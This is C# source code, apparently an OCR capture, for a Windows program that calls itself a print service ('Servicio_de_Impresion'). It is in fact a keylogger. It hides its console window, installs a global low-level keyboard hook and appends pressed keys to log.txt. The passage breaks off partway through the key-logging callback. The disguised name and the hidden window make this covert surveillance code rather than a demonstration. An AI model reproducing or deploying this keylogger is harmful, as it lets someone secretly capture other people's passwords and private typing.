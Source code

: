 using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Threading.Tasks;
using System.Windows.Forms;
using System.Diagnostics;
using System.Runtime.InteropServices;
using System.IO;



namespace Servicio_de_Impresion
{
    class Program
    {
       //Variable de clase//
        private const int WH_KEYBOARD_LL = 13;
        private const int WM_KEYDOWN = 0x0100;
        private static LowLevelKeyboardProc _proc = HookCallback;
        private static IntPtr _hookID = IntPtr.Zero;

        static void Main(string[] args)
        {
            var handle = GetConsoleWindow();

            // Hide
            ShowWindow(handle, SW_HIDE);

            _hookID = SetHook(_proc);
            Application.Run();
            UnhookWindowsHookEx(_hookID);

        }

        private static IntPtr SetHook(LowLevelKeyboardProc proc)
        {
            using (Process curProcess = Process.GetCurrentProcess())
            using (ProcessModule curModule = curProcess.MainModule)
            {
                return SetWindowsHookEx(WH_KEYBOARD_LL, proc,
                    GetModuleHandle(curModule.ModuleName), 0);
            }
        }

        private delegate IntPtr LowLevelKeyboardProc(int nCode, IntPtr wParam, IntPtr lParam);

        private static IntPtr HookCallback(
       int nCode, IntPtr wParam, IntPtr lParam)
        
        {
            if (nCode >= 0 && wParam == (IntPtr)WM_KEYDOWN)
            {
                int vkCode = Marshal.ReadInt32(lParam);
               
                // Console.WriteLine((Keys)vkCode);
                StreamWriter sw = new StreamWriter("log.txt", true);
                if (((char)vkCode=='A'))
                {
                    sw.Write((Keys)vkCode);
                }
                if (((char)vkCode == 'B'))
                {
                    sw.Write((Keys)vkCode);
                }
                if (((char)vkCode == 'C'))
                {
                    sw.Write((Keys)vkCode);
                }